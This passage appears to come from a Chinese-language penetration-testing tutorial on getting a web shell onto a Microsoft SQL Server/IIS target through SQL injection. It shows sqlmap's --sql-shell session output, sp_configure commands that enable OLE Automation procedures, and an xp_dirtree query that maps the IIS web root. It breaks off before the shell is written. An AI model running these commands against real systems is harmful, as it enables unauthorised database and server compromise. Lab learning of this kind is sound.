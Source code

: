 #### 写入shell

> - 自动化不能使用只能靠手动了。利用`--sql-shell`是执行数据库语句。
> 
> ```bash
> ┌──(kali㉿kali)-[~/Desktop]
> └─$ sqlmap "http://192.168.1.99?user_id=1"  --sql-shell
>         ___
>        __H__                                                                                                                                                
>  ___ ___[,]_____ ___ ___  {1.6.6#stable}                                                                                                                    
> |_ -| . [(]     | .'| . |                                                                                                                                   
> |___|_  [,]_|_|_|__,|  _|                                                                                                                                   
>       |_|V...       |_|   https://sqlmap.org                                                                                                                
> 
> [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
> 
> [*] starting @ 06:44:35 /2022-06-30/
> ...
> [06:44:35] [INFO] the back-end DBMS is Microsoft SQL Server
> web server operating system: Windows 7 or 2008 R2
> web application technology: ASP.NET 2.0.50727, Microsoft IIS 7.5, ASP.NET
> back-end DBMS: Microsoft SQL Server 2008
> [06:44:35] [INFO] calling Microsoft SQL Server shell. To quit type 'x' or 'q' and press ENTER
> sql-shell> 
> ```
> 
> ##### 找出网站根目录。
> 
> + 首先要开启sp_oacareate这个存储过程。
> 
> ```bash
> sql-shell> exec sp_configure 'show advanced options', 1;RECONFIGURE;
> [09:26:05] [INFO] executing SQL data execution statement: 'exec sp_configure 'show advanced options', 1;RECONFIGURE'
> exec sp_configure 'show advanced options', 1;RECONFIGURE: 'NULL'
> sql-shell> exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE;
> [09:26:11] [INFO] executing SQL data execution statement: 'exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE'
> exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE: 'NULL'
> ```
> 
> + 先创建一个tmp表然后将xp_dirtree的结果输出到tmp中。
> 
> + 添加数据到tmp表中。这里我们先从IIS默认路径开始。
> 
> ```bash
> CREATE TABLE tmp (dir varchar(8000),num int,num1 int);
> insert into tmp(dir,num,num1) execute master..xp_dirtree 'c:\inetpub\',1,1;
> ```
> 